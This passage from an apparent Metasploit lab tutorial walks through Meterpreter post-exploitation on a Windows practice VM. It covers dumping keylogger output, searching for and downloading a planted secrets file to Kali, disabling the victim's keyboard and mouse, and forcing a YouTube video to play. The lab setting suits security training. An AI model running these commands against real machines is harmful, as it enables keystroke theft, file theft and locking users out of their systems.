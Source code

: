 Back in meterpreter, type `keyscan_dump`.
You should see the text you typed in Notepad. To stop the keylogger, type `keyscan_stop`.


## Steal files

Steal a file—download a file from Windows to Kali.

As the Labuser, use Notepad to create a text document on the Desktop of
the Windows machine. Put some secrets in it.

From the meterpreter session, use the `cd` command within Meterpreter to
navigate to the victim desktop. For that, you can either use the Windows
path specification, with double back-slashes:

    cd c:\\users\\Labuser\\desktop

... or you can use linux path specification:

    cd /Users/Labuser/desktop

Now type `ls` to see what you might pilfer.

Snag the secrets file.

    download [filename to steal]

The file should now be pilfered, saved to the Kali VM at `/root`.

You can also use the `search` command from within meterpreter to find the
location of the secrets file:

    search -f [name of your secrets file].txt



## Annoy the user

Rather than steal secrets, let's switch to pestering Labuser.

First, from meterpreter, disable their keyboard and mouse:

    uictl disable all

Then, play a video for them. We'll use the `play_youtube` post module. Read about it from within meterpreter:

    info post/multi/manage/play_youtube

The default youtube video set for this postmodule is excellent, but you can
optionally swap it out for one of your choosing. From your laptop or whatever,
select your favorite annoying youtube video. Note the url of the video -- it
will include a `v=[video id]` in it. Copy the video id. For example,
one video id is `DLzxrzFCyOs`. Let's play this video, setting VID to your
video. e.g.:

    run post/multi/manage/play_youtube VID=DLzxrzFCyOs

Switch over to the Windows VM and enjoy being annoyed by the video.
Close the video --oh wait you can't, your keyboard and UI access were disabled!
You are powerless!
